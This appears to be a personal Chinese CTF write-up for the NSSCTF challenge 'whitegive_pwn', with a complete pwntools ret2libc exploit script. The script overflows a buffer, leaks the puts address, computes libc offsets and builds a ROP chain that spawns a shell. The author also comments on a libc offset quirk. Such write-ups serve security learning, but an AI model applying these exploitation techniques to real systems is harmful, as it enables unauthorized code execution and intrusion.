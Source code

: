 [[SWPUCTF 2021 新生赛]whitegive_pwn | NSSCTF](https://www.nssctf.cn/problem/391)
![[Pasted image 20240901105951.png]]
![[Pasted image 20240901110019.png]]
也是一道标准的ret2libc，不做赘述
exp:
```python
from pwn import *
import pwnlib.gdb
context(os='linux',arch='amd64',log_level='debug')
# p = remote("node4.anna.nssctf.cn", 28878)
p = process('./whitegive_pwn')
elf = ELF('./whitegive_pwn')

gdb.attach(p, 'b *0x4006d6')

main = 0x4006D6
vuln = 0x4006BA
gift = 0x4006A9
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
gets_plt = elf.plt['gets']

ret = 0x400509
rdi = 0x400763

offset = 0x10 + 8

payload = b'a' * offset + p64(gift) + p64(main)
p.sendline(payload)
p.recvuntil(b'NSS\n')

payload = b'a' * offset + p64(rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
p.sendline(payload)

addr = p.recv()
print(addr)
puts_addr = u64(addr.ljust(8, b'\x00'))
print("puts_addr: ", hex(puts_addr))

'''from LibcSearcher import LibcSearcher
libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')'''


libc_base = puts_addr - 0x6f6a0
system_addr = libc_base + 0x453a0
binsh_addr = libc_base + 0x18ce17 + 0x40

payload = b'a' * offset + p64(ret) + p64(rdi) + p64(binsh_addr) + p64(system_addr)
p.sendline(payload)
p.interactive()
```
ps:同样在本地wsl上跑不了，远程可通。据网上师傅说本题docker的libc有问题，与泄露出来的libc版本不同，需给binsh的偏移加上0x40，原因以及怎么做的我不知道，学长告诉我实际比赛这种问题应该不会出现。
